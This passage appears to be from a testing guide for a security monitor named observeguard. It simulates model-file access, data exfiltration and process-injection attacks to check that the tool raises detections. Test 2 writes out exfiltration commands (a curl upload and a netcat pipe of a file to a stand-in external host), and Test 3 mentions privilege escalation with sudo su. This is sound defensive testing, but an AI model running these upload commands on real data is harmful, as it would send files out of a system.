 **Expected Detection**:
- ✅ `model_file_access_external` - Non-AI process accessing model files
- ✅ `large_model_transfer` - Large file operations on model files

#### **Test 2: Data Exfiltration Simulation** 📤

```bash
# Start monitoring
./build/observeguard collect --duration 20s &

# Simulate large data creation and transfer
dd if=/dev/urandom of=sensitive_data.zip bs=1M count=100  # 100MB file

# Simulate network exfiltration attempt
curl -X POST -F "file=@sensitive_data.zip" http://external-server.com/upload
# Or simulate with netcat
# nc external-server.com 4444 < sensitive_data.zip

# Check detections
curl http://localhost:8080/api/v1/threats/stats
curl http://localhost:8080/api/v1/network/connections

# Cleanup
rm sensitive_data.zip
```

**Expected Detection**:
- ✅ `large_data_upload` - Large data transfer to external network
- ✅ `suspicious_network_activity` - Unexpected external connections

#### **Test 3: Process Injection Simulation** 🔄

```bash
# Start monitoring
./build/observeguard collect --duration 15s &

# Simulate AI process spawning suspicious children
python3 -c "
import subprocess
import time
for i in range(5):
    subprocess.Popen(['echo', 'child_process_' + str(i)])
    time.sleep(1)
"

# Simulate privilege escalation attempt
python3 -c "
import subprocess
subprocess.run(['whoami'])  # Harmless command
# In real attack: subprocess.run(['sudo', 'su'])
"

# Check detections
curl http://localhost:8080/api/v1/processes
curl http://localhost:8080/api/v1/threats?category=privilege_escalation
```
